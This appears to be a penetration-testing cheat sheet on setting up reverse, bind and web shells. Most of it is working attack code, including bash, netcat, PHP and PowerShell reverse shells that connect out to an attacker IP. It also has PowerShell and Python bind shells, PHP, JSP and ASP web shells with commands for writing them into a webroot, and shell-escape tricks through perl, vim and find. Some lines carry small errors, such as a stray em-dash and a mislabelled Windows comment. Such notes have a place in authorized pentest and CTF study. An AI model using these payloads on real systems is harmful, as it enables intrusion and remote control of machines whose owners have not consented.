 ```yaml
---
description: >-
  This is a collection of few useful scripts for creating reverse, bind and web
  shells.
---
```


# Setting up Shells

## Reverse Shells:

### Preparing the shell script:

#### Linux target:

{% tabs %}
{% tab title="Bash" %}
```bash
$ bash -c 'bash -i >& /dev/tcp/1.1.1.1/PORT 0>&1'
# OR 
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENEING PORT> >/tmp/f
```
{% endtab %}

{% tab title="PHP" %}
```php
# To be saved in a .php file.
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 <LISTENEING PORT> >/tmp/f"); ?>
```
{% endtab %}
{% endtabs %}

Other resources online will be helpful in other cases if we need another programming language to execute the script/code not only bash or PHP or even if the payloads above don't work.

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools" %}

{% embed url="https://www.revshells.com/" %}

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

#### Windows Target:

```powershell
target-host> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',PORT);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Setting up a listener on our attacking machine:

```bash
attacking-machine$ nc -lvnp 1234
   -l Listen mode.
   -v Verbose mode.
   -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
   -p 1234 Port number netcat is listening on.
```

#### Results of the injection:

```bash
attacker@attacking-machine$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [1.1.1.1] from (UNKNOWN) [10.10.10.10] 41572

victim@target-host> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

{% hint style="success" %}
<mark style="color:green;">We successfully got a connection back now it's time to make it more stable and efficient.</mark>
{% endhint %}

### Interactive Shells

In order to upgrade our shell to a fully TTY let's follow these steps:

#### Full TTY

```bash
victim@target$ python3 -c 'import pty; pty.spawn("/bin/bash")'
victim@target-host$ ^Z
attacker@attacking-machine$ stty raw -echo && fg
[Enter]
[Enter]
victim@target-host$
# Terminal size :
victim@target-host$ export TERM=xterm-256color
victim@target-host$ stty rows 67 columns 318


Raw mode: This means that characters are delivered to the application as soon as 
they are typed, without any line buffering or special interpretation (such as Ctrl+C for interrupt).
-echo: By turning off echoing, characters typed by the user won't be displayed on the screen.
```

{% hint style="info" %}
Intuitively, since we're executing commands on a target machine, all of our work highly and directly  depends on the permissions of the files/binaries we're aiming to execute. So?

sudo -l your way in in easy boxes :smile:
{% endhint %}



#### Bash

```bash
victim@target$/bin/sh -i
sh: no job control in this shell
sh-4.2$
```

#### Perl

```bash
victim@target$perl —e 'exec "/bin/sh";'

#To be run inside of a perl script
victim@target$perl: exec "/bin/sh"; 
```

#### Ruby

```bash
victim@target$ruby: exec "/bin/sh"
```

#### Lua

```bash
victim@target$lua: os.execute('/bin/sh')
```

#### Find

```bash
victim@target$find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
#Example:
find . -exec /bin/sh \; -quit
```

#### Vim

```bash
victim@target$vim -c ':!/bin/sh'
```

```bash
victim@target$vim
:set shell=/bin/sh
:shell
```













{% hint style="success" %}
<mark style="color:green;">Now we can use the full terminal features.</mark>
{% endhint %}

## Bind shells:

### Listener on the target machine:

#### Linux Target:

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

#### Windows target:

{% tabs %}
{% tab title="PowerShell" %}
```powershell
atrget-host> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endtab %}

{% tab title="Python" %}
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endtab %}
{% endtabs %}

### Connecting to the target:

```bash
$ nc 10.10.10.10 1234
# Successful connection a shell is now open:
victim@target-host> id # Our command, since this is a windows target we should inject a cmdlet
uid=33(www-data) gid=33(www-data) groups=33(www-data) # server response
```

{% hint style="success" %}
We <mark style="color:green;">successfully</mark> got a remote shell on the target machine. If it isn't an unstable and "featureless" terminal, we can upgrade to a full TTY as in the [Reverse shells paragraph](setting-up-shells.md#id-1.-reverse-shells).
{% endhint %}

## Web Shells:

### Preparing the shell script:

{% tabs %}
{% tab title="PHP" %}
```php
<?php system($_REQUEST["cmd"]); ?>
```
{% endtab %}

{% tab title="Java" %}
```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endtab %}

{% tab title="ASP" %}
```aspnet
<% eval request("cmd") %>
```
{% endtab %}
{% endtabs %}

### Injecting to the webroot:

<table><thead><tr><th>Web Server</th><th align="center">Default Webroot</th><th data-hidden align="center"></th></tr></thead><tbody><tr><td>Apache</td><td align="center">/var/www/html/</td><td align="center"></td></tr><tr><td>Nginx</td><td align="center">/usr/local/nginx/html/</td><td align="center"></td></tr><tr><td>IIS</td><td align="center">c:\inetpub\wwwroot\</td><td align="center"></td></tr><tr><td>XAMPP</td><td align="center">C:\xampp\htdocs\</td><td align="center"></td></tr></tbody></table>

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a <mark style="color:red;">**Linux host running Apache**</mark>, we can write a **PHP** shell with the following command:

```bash
$ echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Execution:

1. Visit the shell.php page on the compromised website, and use `?cmd=id` to execute the `id` command:\
   `http://SERVER_IP:PORT/shell.php?cmd=id`\
   We'll get the result of the `id` command on the web page!&#x20;
2. Or Use `curl` command: `$ curl http://SERVER_IP:PORT/shell.php?cmd=id`

